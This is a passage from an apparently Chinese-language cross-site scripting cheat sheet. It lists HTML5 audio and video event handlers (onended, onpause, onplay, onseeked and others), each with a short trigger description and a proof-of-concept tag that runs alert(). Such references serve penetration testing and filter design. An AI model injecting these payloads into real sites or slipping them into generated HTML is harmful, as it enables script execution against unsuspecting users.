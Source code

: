 ```
播放结束后触发xss
```
poc
```
<audio controls onended="alert()">
    <source src="https://www.runoob.com/try/demo_source/horse.mp3" type="audio/mpeg">
</audio>
```

**onpause**
```
播放视频暂停触发
```
poc
```
<video width="320" height="240" controls onpause="alert()">
    <source src="https://www.runoob.com/try/demo_source/movie.mp4" type="video/mp4">
</video>
```

**onplay,onplaying,ontimeupdate**
```
点击视频播放时触发
```
poc
```
<video controls onplay="alert()">
    <source src="https://www.runoob.com/try/demo_source/mov_bbb.mp4" type="video/mp4">
</video>


<video controls onplaying="alert()">
    <source src="https://www.runoob.com/try/demo_source/mov_bbb.mp4" type="video/mp4">
</video>


<video controls ontimeupdate="alert()">
    <source src="https://www.runoob.com/try/demo_source/mov_bbb.mp4" type="video/mp4">
</video>
```

**onseeked,onseeking**
```
点击视频进度条快进或后退触发
```
poc
```
<video controls onseeked="alert()">
    <source src="https://www.runoob.com/try/demo_source/mov_bbb.mp4" type="video/mp4">
</video>


<video controls onseeking="alert()">
    <source src="https://www.runoob.com/try/demo_source/mov_bbb.mp4" type="video/mp4">
</video>
```
